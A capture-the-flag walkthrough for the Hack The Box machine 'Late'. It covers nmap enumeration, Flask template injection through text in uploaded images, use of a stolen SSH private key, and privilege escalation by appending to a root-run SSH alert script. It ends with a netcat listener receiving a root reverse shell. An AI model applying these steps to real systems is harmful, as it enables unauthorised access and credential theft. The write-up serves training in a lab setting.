


$ sudo nmap -p- --min-rate=1000 -T4 10.129.166.198
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
#Service & Safe Scripts
$ sudo nmap -sC -sV -p 22,80 10.129.166.198 -o nmap.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-25 19:09 AWST
Nmap scan report for 10.129.166.198
Host is up (0.29s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
| 256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_ 256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open http nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.84 seconds
#Port 80 - HTTP
Browsing to http://10.129.166.198 a web page of what it seems to be a photo editing service is loaded. Looking at the source-code we can see some references to 2 hosts:
If we pay attention, the title says "Flask", and this framework is known for Server-Side-Template-Injection issues. So if this application turn images into text we could pottenctially send an image containing a SSTI payload to test.
#Testing for Flask SSTI
Lets start with the most simple payload: {{ 7*7 }}. We can simply open any text editor, type in the payload, zoom in, and take a screenshot like below:

Now we upload image to the website.

The application send us a text file of the results. Opening the results.txt file we see:
<p>49
</p>
This means that the application/server executed a simple 7x7 mathematic equation, in another words, we have remote command execution.
#Foothold
Moving to another level now, lets see if we can get the /etc/passwd file. Googling around we can find multiple web sites with Flask SSTI payloads, after trying a couple ones I found this one to be working:
While testing the SSTI payloads, I found out that some fonts works better than others, and we need to have a very clear screenshot of the payload. To circunvent this, I used Figma to create my screenshots.
Which seems to be an interesting user with a home and a bash tty. During the nmap scan we saw that the SSH port is open. Using a guessing game, we can try to retrieve the SSH private key for this user. The payload looks like this:
We can create a file with the contents, give it the right permissions(600) to the file and use it to SSH as svs_acc user.
$ ssh -i svc_acc.idrsa svc_acc@10.129.166.198
#Path to Root
Using pspy we notice that there is a cronjob creating a bash script and setting the owner as svc_acc user.
It creates the following file:
/usr/local/sbin/ssh-alert.sh
With the contents:
#!/bin/bash
RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"
BODY="
A SSH login was detected.
User: $PAM_USER
User IP Host: $PAM_RHOST
Service: $PAM_SERVICE
TTY: $PAM_TTY
Date: `date`
Server: `uname -a`
"
if [ ${PAM_TYPE} = "open_session" ]; then
echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
Using lsattr we see that we cannot edit the file contents but we can append!
caue@kali:~/htb/late$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.56] from (UNKNOWN) [10.129.166.198] 57468
bash: cannot set terminal process group (9654): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# id
uid=0(root) gid=0(root) groups=0(root)